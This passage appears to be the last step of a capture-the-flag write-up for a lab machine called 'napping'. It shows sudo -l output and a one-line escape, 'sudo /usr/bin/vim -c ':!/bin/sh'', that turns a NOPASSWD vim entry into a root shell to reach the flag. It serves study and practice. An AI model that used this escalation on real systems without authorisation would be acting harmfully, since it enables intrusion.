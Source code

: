 ## Further escalation
```
adrian@napping:~$ sudo -l
sudo -l
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```
- it appears that adrian can run vim with sudo priviledges
- which means that we can attempt to invoke Vim with elevated privileges using sudo, and then execute a shell command (/bin/sh) from within Vim.
- `sudo /usr/bin/vim -c ':!/bin/sh'`
  
     ![congrats](images/07.png)

- Finally we can now access the root flag located in `cd /root`
# THE END


